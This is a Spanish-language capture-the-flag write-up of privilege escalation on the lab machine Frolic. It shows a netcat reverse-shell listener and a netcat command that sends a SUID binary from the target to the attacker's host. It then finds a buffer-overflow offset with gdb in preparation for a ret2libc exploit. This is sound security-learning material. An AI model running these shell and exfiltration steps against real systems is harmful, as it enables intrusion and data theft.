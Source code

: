 -------------------
# Part 4: Ret2libc 

```console
└─$ sudo nc -nlvp 443
www-data@frolic:
```

Subimos nuestro script con wget (cambiamos /usr/bin/bash por /bin/bash para que funcione):
- Usuarios: root sahay ayush, nosotros somos www-data
- SUIDS -> /home/ayush/.binary/rop
- Hay una sql corriendo pero no hay creds
- La flag del usaurio ayush está en su directorio /home, con permiso de lectura

Como somos www-data (demonio que corre la web) hay un porrón de archivos de playsms, asi que en el script 
comente las lienas respectivas a */var/www* y *archivos de usuario actual* ajustando el script a esta maquina.

```console
www-data@frolic:/home$ /home/ayush/.binary/rop test;echo
[+] Message sent: test
```
El binario es un programa personal, asi que implica explotacion de binarios.

```console
www-data@frolic:/home$ nc 10.10.14.15 444 < /home/ayush/.binary/rop
└─$ sudo nc -nlvp 444 > rop
Ncat: Connection from 10.10.10.111:39390.
www-data@frolic:/home/ayush/.binary$ md5sum rop
001d6cf82093a0d716587169e019de7d  rop
└─$ md5sum rop 
001d6cf82093a0d716587169e019de7d  rop
```
El binario se ha trasnferido perfectamente.

```console
└─$ checksec --file=./rop   
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	    Symbols		 FORTIFY	
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols	 No	0	./rop
```

Como tiene NX activado significa que no pueden ejecutarse instrucciones en la pila, o sea que habrá que tirar
de Ret2libc que utiliza funciones ya existentes en el binario (libreria system)

```console
└─$ gdb -q ./rop
gef➤  disas main
└─$ python3 -c "print('A'* 1000)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
gef➤ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA... # Segmentation fault
gef➤  pattern create
[+] Generating a pattern of 1024 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaat...
gef➤  r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaa... # Segfault
$eip   : 0x6161616e ("naaa"?)
└─$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa... | grep "naaa"
└─$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa" | wc -c # -> 53 (52 - "\n")
gef➤  pattern offset $eip  # -> [+] Found at offset 52 (little-endian search) likely
```
